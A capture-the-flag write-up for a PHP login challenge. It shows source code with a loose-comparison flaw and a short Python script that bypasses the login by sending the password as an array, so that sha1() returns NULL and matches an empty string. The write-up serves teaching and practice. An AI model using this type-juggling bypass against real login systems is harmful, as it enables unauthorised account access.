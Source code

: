 # PHP Login

Tag: `Language Feature`

[http://h4ck3r.quest:8081](http://h4ck3r.quest:8081)

## Writeup

The source is give:

```php
<?php
// BSides Ahmedabad CTF 2021: entrance

include 'flag.php';
$users = array(
    "admin" => "ed2b7b57b3b5be3e8d4246c69e4b513608ffb352",
    "guest" => "35675e68f4b5af7b995d9205ad0fc43842f16450"
);

function lookup($username) {
    global $users;
    return array_key_exists($username, $users) ? $users[$username] : "";
}

if (!empty($_POST['username']) && !empty($_POST['password'])) {
    $sha1pass = lookup($_POST['username']);
    if ($sha1pass == sha1($_POST['password'])) {
        if ($_POST['username'] !== 'guest') echo $FLAG;
        else echo 'Welcome guest!';
    } else {
        echo 'Login Failed!';
    }
} else {
    echo "You can login with guest:guest";
}
echo "<br>\n";
highlight_file(__file__);
?>
```

We cannot crack admin's password easily.

`$sha1pass == sha1($_POST['password'])` has loose comparison, we can use php type juggling.

After [some research](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md#null-statements), we found out that we can `sha1` an array and get `NULL`. And `NULL` is very "powerful" in type juggling.

By looking up the table we see that `NULL == ""` is true. So that's it.

```python
#!/usr/bin/env python3
# -* coding: utf-8 -*-
# By TWNWAKing
import requests
import re

url = "http://h4ck3r.quest:8081/"
regex = "FLAG\{[^\}]+\}"
r = requests.post(
    url, data={"username": '"not_admin"', "password[]": "'magic'"}
)  # What the hell...
print(re.findall(regex, r.text)[0])
# FLAG{ez_php_weak_type}
```
